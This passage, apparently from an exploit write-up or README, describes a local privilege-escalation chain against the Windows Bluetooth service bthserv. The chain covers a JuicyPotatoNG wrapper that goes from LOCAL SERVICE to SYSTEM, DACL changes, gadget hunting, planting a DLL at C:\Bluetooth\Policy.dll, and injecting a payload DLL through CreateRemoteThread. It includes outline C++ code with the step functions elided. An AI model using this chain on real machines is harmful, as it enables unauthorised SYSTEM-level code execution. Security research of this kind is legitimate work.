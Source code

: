 - **bthlpe_juicypotato.exe** is a wrapper executable around JuictyPotatoNG which is going to be executed by the harness DLL once it's loaded within **bthserv**. Its purpose is to escalate privileges from LOCAL SERVICE to SYSTEM. How that's done, you can read on [this blog post](https://decoder.cloud/2022/09/21/giving-juicypotato-a-second-chance-juicypotatong/). The main reason we do this from a separate executable, rather than from the harness DLL, is that the method of escalation that JuicyPotatoNG uses relies on the process having not called `CoInitializeSecurity` earlier, which **bthserv** does call at startup.

Note that the exploit only works out of the box on 64-bit targets, but could be adjusted to work on 32-bit ones as well, with some tinkering.

### description
Most of the exploit code is trivial boilerplate stuff like communication between different modules via pipes. As such, I'll just describe the overview of the steps that are taken. The only interesting part really is how we go from the heap corruption to ACE, which I'll share further below.

The code in **bthlpe_master.exe** is split into two steps. The first step is performed only once and has five smaller steps:
```
bool DoStep1()
{
    ...
        // No bluetooth radio = no vulnerability, so ensure one exists and is enabled
        if (!CheckIfBluetoothRadioExists())
        {
            return false;
        }
        
        // Change other modules' DACL so that the LOCAL SERVICE user can access them
        if (!GrantFileAccesses())
        {
            return false;
        }

        // Tries to find two gadgets that are necessary for the exploit
        // The first gadget is a string that can be interpreted as a file path, here we use \Bluetooth\Policy,
        // the exploit will call `LoadLibrary` on this string, which will be interpreted as C:\Bluetooth\Policy.dll
        // The second gadget is a "chained" pointer to a byte that's equal to one, we'll later see why it's needed.
        if (!GetHarnessAndPointerReferenceInExtModule(HARNESS_REF_EXT_MODULE, HARNESS_DEPLOY_NAME))
        {
            return false;
        }
        
        // Deploys the harness DLL into the previously found special filepath, i.e. C:\Bluetooth\Policy.dll
        if (!DeployHarness(HARNESS_DEPLOY_NAME))
        {
            return false;
        }
        
        // Loads the payload dll into bthserv via CreateRemoteThread in StartMenuExperienceHost.exe
        if (!LoadPayloadDllIntoProcess(TARGET_PROCESS_NAME, PAYLOAD_DLL_NAME))
        {
            return false;
        }
    }

    return true;
}
```
